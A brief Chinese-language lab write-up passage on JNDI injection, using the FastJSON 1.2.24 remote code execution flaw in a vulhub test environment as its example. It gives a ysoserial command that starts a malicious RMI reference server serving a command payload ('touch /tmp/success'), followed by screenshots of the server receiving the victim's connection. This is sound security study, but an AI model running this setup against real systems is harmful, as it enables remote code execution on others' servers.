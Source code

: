 ### FastJSON 1.2.24 RCE

这里我们以FastJSON 1.2.24版本的RCE为例，来试验JNDI

首先开启一个evil rmi server

```bash
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRefListener2 host:1099 80 EvilObj "touch /tmp/success"
```

用[vulhub](https://github.com/vulhub/vulhub/blob/master/fastjson/1.2.24-rce/README.md)的环境

![image-20200206144653206](/images/jndi-with-rmi-20200209/image-20200206144653206-1255889.png)

在服务器端会接收到连接

![image-20200206144749240](/images/jndi-with-rmi-20200209/image-20200206144749240-1255889.png)
